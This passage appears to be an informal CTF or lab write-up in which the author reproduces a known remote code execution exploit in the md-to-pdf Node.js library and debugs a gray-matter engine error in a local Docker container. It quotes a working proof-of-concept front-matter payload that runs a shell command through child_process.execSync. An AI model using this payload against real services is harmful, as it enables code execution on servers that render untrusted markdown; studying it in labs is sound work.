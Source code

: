 > ```js
> const { mdToPdf } = require('md-to-pdf');
> 
> var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE';
> 
> (async () => {
> await mdToPdf({ content: payload }, { dest: './output.pdf' });
> })();
> ```

a provided proof of concept of the exploit?? and it is only one line??? wow.
that is super nice

> well, it was semi-nice. sure, it probably works, but what on earth is the `jsn`
function? maybe it's something that is only interpreted by mdToPdf? no idea.

copying `---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE`
into the markdown input yielded with an error. cool, but it was unclear whether
this exploit actually worked.

> *ah, if only there was a way for me to check whether the result of the payload*
i thought to myself. *wouldn't that be nice*.

> of course: i had the source code, and also a nice script to help me build the
docker container! amazing

as such, i installed docker onto my kali vm and built the docker image (which
took *super* long).

once built, the server ran automatically on `localhost:1337`, and i could view
the logs the container was generating, including any errors! nice.

throwing `---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE`
at the machine as input yielded with the following stack trace:
```
Error: gray-matter engine "jsn((require("child_process")).execSync("id > /tmp/test.txt"))n---RC" is not registered
    at module.exports (/app/node_modules/gray-matter/lib/engine.js:6:11)
    at module.exports (/app/node_modules/gray-matter/lib/parse.js:8:18)
    at parseMatter (/app/node_modules/gray-matter/index.js:109:17)
    at Object.matter [as default] (/app/node_modules/gray-matter/index.js:50:10)
    at Object.convertMdToPdf (/app/node_modules/md-to-pdf/dist/lib/md-to-pdf.js:23:75)
    at mdToPdf (/app/node_modules/md-to-pdf/dist/index.js:30:35)
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
    at async /app/helpers/MDHelper.js:8:13
```

... interesting, i've never heard of the `gray-matter engine`, but there exist
a *whole* bunch of nodejs modules. i tried to perform some research on
`gray-matter`, but came short with any results, let alone any method to resolve
this issue. (perhaps it was because i searched for `grey-matter engine`?) idk

after some time, i looked back at the stack trace and noticed that the lowest
error was being thrown within `/app/node_modules/gray-matter/lib/engine.js:6:11`.
it might be possible for me to take a look at that module and determine its issue?
my main concern would be that this was a potential rabbit hole, as if there was
an issue with the `gray-matter` module, i would not be able to fix it on the
running machine. regardless i took a look at it, and i'm glad that i did.
